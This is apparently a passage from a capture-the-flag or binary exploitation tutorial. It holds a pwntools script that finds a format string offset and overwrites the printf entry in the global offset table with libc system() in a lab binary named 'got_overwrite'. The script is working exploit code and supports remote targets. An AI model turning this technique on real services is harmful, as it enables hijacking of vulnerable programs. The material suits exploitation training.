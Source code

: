 ### Automated Exploit

`exploit.py`:

```python
from pwn import *
from pwnlib.fmtstr import FmtStr, fmtstr_split, fmtstr_payload


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Function to be called by FmtStr
def send_payload(payload):
    io.sendline(payload)
    return io.recvline()


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())


# Set up pwntools for the correct architecture
exe = './got_overwrite'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

io = start()

# Found manually (ASLR_OFF)
libc = elf.libc
libc.address = 0xf7d7f000 #0xf7e02150 #0xf7dba000  # ldd got_overwrite

# Find the offset for format string write
format_string = FmtStr(execute_fmt=send_payload)
info("format string offset: %d", format_string.offset)

# Print address to overwrite (printf) and what we want to write (system)
info("address to overwrite (elf.got.printf): %#x", elf.got.printf)
info("address to write (libc.functions.system): %#x", libc.symbols.system)

# Overwrite printf() in GOT with Lib-C system()
# Manual, like in notes.txt
# format_string.write(0x0804c00c, p16(0xf040))  # Lower-order
# format_string.write(0x0804c00e, p16(0xf7df))  # Higher-order
# Or automagically
format_string.write(elf.got.printf, libc.symbols.system)

```